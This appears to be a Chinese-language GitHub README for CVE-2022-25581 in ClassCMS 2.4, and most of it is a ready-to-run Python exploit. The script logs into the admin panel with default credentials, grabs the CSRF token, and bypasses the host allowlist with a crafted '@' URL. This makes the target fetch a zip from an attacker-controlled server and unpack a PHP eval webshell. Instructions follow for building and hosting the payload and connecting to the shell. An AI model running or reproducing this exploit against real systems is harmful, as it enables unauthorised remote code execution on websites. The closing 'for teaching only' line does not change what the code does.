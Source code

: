 # CVE-2022-25581

全网都搜不到，留下备份，**Python 利用脚本**，用于自动完成以下步骤：

---

### ✅ 脚本功能目标

1. 登录后台（获取 `csrf` 和 `token`）
2. 构造恶意请求包上传压缩包（包含 webshell）
3. 访问上传的 webshell 获取控制权限（GET shell）

---

## 🧾 前提条件

- 目标环境：ClassCMS 2.4
- Web服务器：PHP 5.5 + MySQL
- 攻击者拥有一个可访问的 HTTP 服务器（用于托管 `shell.zip`）
- 已知后台路径（如 `/admin666`）
- 后台账号密码为 `admin/admin`

---

## 🔒 漏洞利用原理回顾

该任意文件下载漏洞的核心是构造一个特殊格式的 URL：

```
http://@<ip>:80@classcms.com/shell.zip
```

通过 PHP 的 `parse_url()` 与 `curl` 对 URL 解析方式的不同，绕过 host 白名单校验。

---

## 🐍 Python 利用脚本

```python
import requests
from bs4 import BeautifulSoup

# =============== 配置信息 ===============
target_url = "http://192.168.12.144"
admin_path = "/admin666"  # 后台路径
login_url = f"{target_url}{admin_path}?do=login"

download_url = f"{target_url}{admin_path}?do=shop:downloadClass&ajax=1"

# 你的攻击服务器地址（必须能被目标访问到）
attacker_ip = "192.168.12.144"
attacker_port = 80
shell_zip_url = f"http://@{attacker_ip}:{attacker_port}@classcms.com/shell.zip"

# webshell 文件名
webshell_name = "shell.php"
webshell_path = f"{target_url}/class/shell/{webshell_name}"

# 登录凭证
username = "admin"
password = "admin"

# ========================================

# 设置 session 维持 cookie
session = requests.Session()

# ================ Step 1: 登录后台 ================
def login():
    print("[*] 正在登录后台...")
    data = {
        "username": username,
        "password": password
    }
    res = session.post(login_url, data=data)
    if "退出登录" in res.text:
        print("[+] 登录成功！")
        return True
    else:
        print("[-] 登录失败，请检查用户名/密码或后台路径是否正确。")
        return False

# ================ Step 2: 获取 csrf token ================
def get_csrf():
    url = f"{target_url}{admin_path}?do=shop:index&action=detail&classhash=debugswitch"
    res = session.get(url)
    soup = BeautifulSoup(res.text, 'html.parser')
    csrf_input = soup.find('input', {'name': 'csrf'})
    if csrf_input:
        return csrf_input['value']
    else:
        print("[-] 无法提取 csrf token！")
        return None

# ================ Step 3: 上传压缩包并解压 ================
def upload_shell(csrf_token):
    print(f"[*] 正在上传 {shell_zip_url} ...")

    payload = {
        "classhash": "shell",
        "url": shell_zip_url,
        "csrf": csrf_token
    }

    headers = {
        "User-Agent": "Mozilla/5.0",
        "X-Requested-With": "XMLHttpRequest",
        "Content-Type": "application/x-www-form-urlencoded; charset=UTF-8"
    }

    res = session.post(download_url, data=payload, headers=headers)

    if res.status_code == 200 and "下载完成" in res.text:
        print("[+] 上传成功！")
        return True
    else:
        print("[-] 上传失败，响应内容：", res.text)
        return False

# ================ Step 4: 尝试访问 webshell ================
def check_webshell():
    print(f"[*] 正在尝试访问 webshell：{webshell_path}")
    try:
        res = session.get(webshell_path, timeout=5)
        if res.status_code == 200:
            print("[+] 成功访问 webshell，你现在可以使用菜刀/蚁剑连接！")
            print(f"[+] 地址：{webshell_path}")
        else:
            print("[-] webshell 未找到或未执行。")
    except Exception as e:
        print("[-] 连接异常：", str(e))

# ================ 主函数 ================
if __name__ == "__main__":
    if login():
        csrf = get_csrf()
        if csrf:
            if upload_shell(csrf):
                check_webshell()
```

---

## 📁 shell.zip 文件制作方法

1. 创建 `shell.php` 内容如下：
   ```php
   <?php @eval($_POST['cmd']); ?>
   ```

2. 打包为 `shell.zip`，确保结构为根目录直接包含 `shell.php`。

3. 放在你的攻击服务器上，确保可通过以下 URL 访问：
   ```
   http://192.168.12.144/shell.zip
   ```

---

## 🛠️ 使用说明

1. 安装依赖：

```bash
pip install requests beautifulsoup4
```

2. 修改脚本中的 IP、端口、路径等配置项。
3. 在攻击服务器启动 HTTP 服务，提供 `shell.zip` 下载。
4. 执行脚本：

```bash
python exploit_classcms.py
```

---

## 📌 注意事项

- 确保攻击服务器开放 80 端口且 `shell.zip` 可正常下载。
- 若目标后台路径不同，请修改 `admin_path`。
- 如遇 CSRF 校验失败，请重新抓包确认 token 是否更新。
- 此脚本仅供教学研究用途，请勿用于非法入侵！

---
